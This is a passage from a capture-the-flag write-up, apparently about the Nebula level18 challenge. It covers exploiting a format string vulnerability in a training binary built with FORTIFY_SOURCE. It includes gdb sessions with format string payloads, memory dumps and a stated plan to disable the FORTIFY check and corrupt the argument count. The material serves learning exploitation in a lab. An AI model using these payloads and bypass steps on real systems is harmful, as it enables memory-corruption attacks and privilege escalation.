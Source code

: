 This means that our binary was likely compiled with [FORTIFY_SOURCE=2](https://wiki.edubuntu.org/ToolChain/CompilerFlags).  [Here's](http://gcc.gnu.org/ml/gcc-patches/2004-09/msg02055.html) the patch that explains what it is and prevents, and the differences between 1 and 2.  Because I don't take doors slammed in my face very well, and it's late, it's time to break out the [phrack](http://www.phrack.org/issues.html?issue=67&id=9):

```
level18@nebula:/home/flag18$ gdb ./flag18 
Reading symbols from /home/flag18/flag18...(no debugging symbols found)...done.
(gdb) r -d /tmp/dbg 
Starting program: /home/flag18/flag18 -d /tmp/dbg
site exec %1$*269168516$x %1073741824$                            

Program received signal SIGSEGV, Segmentation fault.
0x0028b359 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) 
```

Exploitation of this wasn't trivial, but it was eye-opening into some of the things you can accomplish with format string vulnerabilities.  Because our binary was compiled with FORTIFY_SOURCE, there are essentially two things we need to do: disable the FORTIFY flag, and disable the argument filler.  The argument filler essentially sets every argument in arguments[argc] to -1, then fills in the user supplied arguments.  Any -1's remaining will cause an error.  At a high level we're doing this:
+ Disable FORTIFY_SOURCE flag
+ Modify nargs to blow up
+ Be happy

The Phrack article does a better job of explaining this than I do, so if you'd like an in-depth analysis of all this, follow the article.  Anyway -- finding and disabling FORTIFY_SOURCE:

```
level18@nebula:/home/flag18$ gdb ./flag18 
Reading symbols from /home/flag18/flag18...(no debugging symbols found)...done.
(gdb) b vfprintf
Function "vfprintf" not defined.
Make breakpoint pending on future shared library load? (y or [n]) y
Breakpoint 1 (vfprintf) pending.
(gdb) r -d /tmp/dbg
site exec %1$*2222848$x %1073741824$

Breakpoint 1, 0x00171140 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) c
Continuing.

Breakpoint 1, 0x00171140 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) tb *(vfprintf+4649)
Temporary breakpoint 2 at 0x172359
(gdb) c
Continuing.

Breakpoint 1, 0x00171140 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/x $eax
0xbfffef60:    0xfbad8004
(gdb) x/20wx $eax
0xbfffef60:    0xfbad8004    0xbffff4f8    0x0017192c    0xbffff528
0xbfffef70:    0xbfffcf60    0xbfffcf60    0xbfffef60    0x00000000
0xbfffef80:    0x00000000    0x00000000    0x00000027    0x08049017
0xbfffef90:    0xfbad8004    0x00000000    0x00000000    0x00000004
0xbfffefa0:    0xbfffcf90    0xbf00cfaf    0x00000000    0x00000000
(gdb) x/wx 0xbfffef9c
0xbfffef9c:    0x00000004
(gdb) 
```
